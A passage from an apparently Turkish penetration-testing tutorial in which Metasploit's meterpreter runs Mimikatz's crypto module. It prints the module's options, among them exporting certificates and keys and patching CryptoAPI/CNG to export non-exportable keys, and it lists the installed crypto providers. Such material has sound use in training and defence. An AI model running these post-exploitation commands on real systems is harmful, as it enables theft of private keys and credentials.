
```bash
meterpreter **&gt;** mimikatz_command -f crypto::
Module : 'crypto' identifié, mais commande '' introuvable

Description du module : Cryptographie et certificats
listProviders   - Liste les providers installés**)**
  listStores    - Liste les magasins système
listCertificates        - Liste les certificats
    listKeys    - Liste les conteneurs de clés
exportCertificates      - Exporte les certificats
  exportKeys    - Exporte les clés
    patchcng    - **[**experimental] Patch le gestionnaire de clés pour l'export de clés non exportable
   patchcapi    - [experimental] Patch la CryptoAPI courante pour l'export de clés non exportable
```



Bu seçeneklerden `listProviders` seçeneğini kullanalım.


```bash
meterpreter &gt; mimikatz_command -f crypto::listProviders
Providers CryptoAPI :
        Gemplus GemSAFE Card CSP v1.0
        Infineon SICRYPT Base Smart Card CSP
        Microsoft Base Cryptographic Provider v1.0
        Microsoft Base DSS and Diffie-Hellman Cryptographic Provider
        Microsoft Base DSS Cryptographic Provider
        Microsoft Base Smart Card Crypto Provider
        Microsoft DH SChannel Cryptographic Provider
        Microsoft Enhanced Cryptographic Provider v1.0
        Microsoft Enhanced DSS and Diffie-Hellman Cryptographic Provider
        Microsoft Enhanced RSA and AES Cryptographic Provider (Prototype)
        Microsoft RSA SChannel Cryptographic Provider
        Microsoft Strong Cryptographic Provider
```



Yukarıdaki örneklerden göreceğiniz gibi, Mimikatz’a ait modüller ve bu modüllerin seçenekleri bulunuyor. Çok geniş ihtimaller dahilinde kullanabileceğiniz komutları tek tek deneyerek tecrübe kazanmanızı tavsiye ediyorum.

